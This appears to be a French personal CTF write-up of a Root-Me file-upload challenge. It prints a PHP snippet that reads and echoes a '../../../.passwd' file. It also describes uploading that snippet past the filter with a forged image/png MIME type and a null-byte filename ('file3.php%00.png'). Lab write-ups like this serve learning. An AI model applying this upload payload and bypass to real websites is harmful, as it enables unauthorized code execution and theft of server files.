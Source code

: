 <script src="../../../js/password-protect.js"></script>

---
categorie: web-server
tags:
  - rootme
  - "#informatique/cyber"
---
# But

rÃ©cupÃ©rer un flag surmenet dans \<racine\>/.passwd en uploadant un fichier de type .jpg ou png ou autre - type photo - avec du php cachÃ© dedans

# Fourni

un site avec un bouton pour upload un fichier


# MÃ©thode de rÃ©solution

voir en premier la mÃ©thode de rÃ©solution pour le [[File upload - Type MIME]]

on va donc enovyer un fichier qui nous permettra d'afficher notre fichier comme si c'Ã©tait une image

voici le contenu de notre fichier : 


```
<?php
$homepage = file_get_contents('../../../.passwd');
echo $homepage;
?>
```

je l'ai simplement appellÃ© "file.php"

et lorsque je l'envoie sur le site :

![[Pasted image 20241015223514.png]]

je vais donc essayer d'utiliser le type mime pour faire croire au serveur que j'envoie une image (avec burp suite)

![[Pasted image 20241015223742.png]]


on utilise donc le type MIME et on utilise le null byte %00 pour ne pas ajouter le reste de la requete donc le nom du fichier sera bien file3.php et pas le reste.

voir : [lien](https://www.thehacker.recipes/web/inputs/null-byte-injection)


filename="file3.php%00.png"
Content-Type: image/png


![[Pasted image 20241015224035.png]]



# Conclusion


challenge chouette rÃ©alisÃ© rapidement